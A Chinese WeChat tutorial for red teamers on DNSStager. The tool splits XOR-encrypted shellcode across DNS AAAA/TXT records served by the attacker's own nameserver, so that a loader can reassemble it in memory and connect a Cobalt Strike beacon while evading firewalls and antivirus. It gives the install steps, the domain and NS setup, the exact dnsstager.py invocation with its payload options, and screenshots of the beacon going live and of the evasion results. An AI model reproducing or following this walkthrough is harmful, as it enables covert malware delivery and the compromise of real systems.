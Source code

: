 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/bM_rsh8KxXwwyEkbHRTKsw)

**1.DNSStager 介绍**

类似于 shellcode 分离免杀的思路，DNSStager 是用来帮助红队人员执行在 DNS 隐藏多段 shellcode，通过多次请求 dns 查询，达到加载 shellcode 内容然后上线的目的。

其原理是：将你申请的根域名（如 gendns.tk）作为 ns 服务器，提供 test.gendns.tk 子域名的解析服务，然后工具在本地对 test.gendns.tk 建立多个 AAAA 记录的 IPV6 地址，生成运行程序循环请求这些个记录，拼接 AAAA 记录作为 shellcode 加载，从而达到上线的目的。

优点：

1 加载 shellcode 为外部 dns 请求，防火墙很少拦截。

2 使用 xor 加密程序运行，免杀部分 AV。

工具基于多个 DNS 记录，如开源工具 IPv6  和 TXT  并再注入到内存中并运行它。

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibgt3bGyUL3FGiadA36NNWEKelHNAjSc7AUutTcVIALiaowsYSsyRUM7H0H3zQkicE1ReMiahekSrawBQ/640?wx_fmt=png)

官方地址：https://shells.systems/unveiling-dnsstager-a-tool-to-hide-your-payload-in-dns/

DNSStager 将创建一个伪造的 DNS 服务器，该服务器将根据 AAAA 和 TXT 记录解析您的域的伪造地址，这些地址将呈现您的有效负载的一部分，该净荷已编码 / 加密并可供代理使用。

**2.DNSStager 使用条件**
====================

要安装 DNSStager，您需要首先使用以下命令从官方存储库中克隆它：

```
git clone https://github.com/mhaskar/DNSStager
```

然后使用以下命令安装 DNSStager 的所有 python 要求：  

```
pip3 install -r requirements.txt
```

此外需要注意的是，需要禁用本机的 systemd-resolved 服务:

```
sudo service systemd-resolved stop
sudo systemctl disable systemd-resolved
```

环境可选 c。

golang；c 需要安装 ming-w64（这里推荐 ubuntu、kali 系统，centos 上楼主尝试多次安装 ming-w64 均失败）：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibgt3bGyUL3FGiadA36NNWEKyUibuJwkOJDpXtbqJB6dM6oB9KezjI9LS3W3Nj1bT1FJ89u51hTKKeQ/640?wx_fmt=png)

golang 需要 GoLang version 1.16.3，并安装

*   golang.org/x/sys
    
*   github.com/miekg/dns
    

这两个第三方依赖库（golang 扩展目前还未复现成功，go-1.16 各种坑）。

**3. 域名的配置**
============

使用 DNSStager 作为 shellcode 存储媒介，当然要有一个域名，可在美国 freenom 等服务商处申请（楼主各种失败，最后只能花钱买一个），申请好后需要解析 NS

到第三方域名服务商，例如 dnspod，cloudflare，在这些地方添加子域名 test.gendns.tk 的 NS 记录到你自己的 vps 才可以。

前提：VPS 对外开放 53 端口的 UDP 数据，提供 NS 查询。

具体如何使用 cloudflare 请参考《实战填坑 | CS 使用 CDN 隐藏 C2》

[https://mp.weixin.qq.com/s/B30Unfh5yAN4A151P1gsMQ](https://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247496969&idx=1&sn=eeda795dcd95bcf19ebc8e26546a6b97&scene=21#wechat_redirect)

CDN 配置以 cloudflare 为例，在 DNS 选项处添加 NS 记录：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibgt3bGyUL3FGiadA36NNWEK5aDskzZFZC972UlFRBgsBc8BTo7bVf8RoX1Iq44G0gy00bzgGnd2Pg/640?wx_fmt=png)

最后的效果：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibgt3bGyUL3FGiadA36NNWEKwxuxsia6eASLekWabBhxTiaUrpJXqspibWF5PnIN6QpPwiaC03SVWqH3hw/640?wx_fmt=png)

在你填写的 vps 中下载工具，使用方法（payload 以 x64/c/ipv6 为例）：

```
dnsstager.py --domain test.gendns.tk --payload x64/c/ipv6 --output /home/a.exe --prefix cloud-srv- --shellcode_path /home/DNSStager/payload.bin --sleep 1 --xorkey 0x10
```

其中 payload 有多种，使用 python 3 dnsstager.py –payloads 查看：  

```
x64/c/ipv6      Resolve your payload as IPV6 addresses xored with custom key via compiled x64 C code
x86/c/ipv6      Resolve your payload as IPV6 addresses xored with custom key via compiled x86 C code
x64/golang/txt      Resolve your payload as TXT records encoded using base64 compiled x64 GoLang code
x64/golang/ipv6      Resolve your payload as IPV6 addresses encoded with custom key using byte add encoding via compiled x64 GoLang code
x86/golang/txt      Resolve your payload as TXT records encoded using base64 compiled x86 GoLang code
x86/golang/ipv6      Resolve your payload as IPV6 addresses encoded with custom key using byte add encoding via compiled x86 GoLang code
```

注意：其中 --prefix cdn 参数的 cloud-srv - 可自由配置，就是在 test.gendns.tk 之前添加 NS 子域名，作为多个 shellcode 分片存储媒介。

**4. 工具的使用**
============

在运行工具后会在本机监听 53 端口：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibgt3bGyUL3FGiadA36NNWEKm2x8zEic6l8opTEEYba2Ouic5wKNgf4H3NCdiauaO73HvGSEL5nqiaribvw/640?wx_fmt=png)操作之前使用 dig 命令可检查 ns 域名：dig AAAA cloud-srv-0.test.gendns.tk

未成功时：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibgt3bGyUL3FGiadA36NNWEKSg7ww9ia2GeDtYVjkBJKgN5aibNDdCNwSAlJZle2cj04MNWvPnVdCriag/640?wx_fmt=png)

已经插入了 AAAA 记录：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibgt3bGyUL3FGiadA36NNWEKRVPTQutnnTNnEskm02o0rFphsyuu3SL3oX3iaos38SZO7Dcm7ibthobQ/640?wx_fmt=png)

使用 dig 命令查询会看到记录，运行程序后监听端也会看到：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibgt3bGyUL3FGiadA36NNWEKqABSyTlccWaMoPuDwcwwuuFy0lcQ7RPL7P2af3iaW1S8fV23nnOQgXQ/640?wx_fmt=png)

提示共需要发送 56 次 dns 查询请求才能加载完毕 shellcode：DNSStager will send 56 DNS requests to get the full payload，意为在 vps 建立了 56 个 cloud-srv-*.test.gendns.tk NS 记录。

wireshark 抓包可见请求 AAAA 记录：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibgt3bGyUL3FGiadA36NNWEKJYmZGt5D3QibV0OGg8IkoKRuQfqJVkpBpmw9907K8EiaoxApcaYh7SPA/640?wx_fmt=png)

最后 CS 上线：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibgt3bGyUL3FGiadA36NNWEKJUu2hKcWjD8lv5WBC6ibywXGvSJU8lR2UxH0WicULsvlbzKporUCny0A/640?wx_fmt=png)

免杀效果  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibgt3bGyUL3FGiadA36NNWEK8BTrm2ylaTRVnxp0rjatUNTzVzhaRt4C9IyImhfx8ZVSaNBGD3xjCQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)

**推荐阅读：**

**[CS 如何配置通过 CDN 上线](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247490277&idx=1&sn=62528cb1168e28003a59d693ec44006e&chksm=ec1f4fdadb68c6cc111edb7fa3b33c8e868c294e6eaee2127e912f24db8636be3e800e53a2d1&scene=21#wechat_redirect)**

**[实战填坑 | CS 使用 CDN 隐藏 C2](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247496969&idx=1&sn=eeda795dcd95bcf19ebc8e26546a6b97&chksm=ec1ca036db6b292077206bdf2be3fcc739f4da72bc49222cb44f4467219be6757ceb7585e8d3&scene=21#wechat_redirect)  
**

本月报名可以参加抽奖送暗夜精灵 6Pro 笔记本电脑的优惠活动  

[![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvouibfico2qhUHkxIvX2u13s7zzLMaFdWAhC1MTl3xzjjPth3bLibSZtzN9KGsEWibPgYw55Lkm5VuKthibQ/640?wx_fmt=jpeg)](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247496998&idx=1&sn=da047300e19463fc88fcd3e76fda4203&chksm=ec1ca019db6b290f06c736843c2713464a65e6b6dbeac9699abf0b0a34d5ef442de4654d8308&scene=21#wechat_redirect)

**点赞，转发，在看**

原创投稿作者：伞

![](https://mmbiz.qpic.cn/mmbiz_gif/Uq8QfeuvouibQiaEkicNSzLStibHWxDSDpKeBqxDe6QMdr7M5ld84NFX0Q5HoNEedaMZeibI6cKE55jiaLMf9APuY0pA/640?wx_fmt=gif)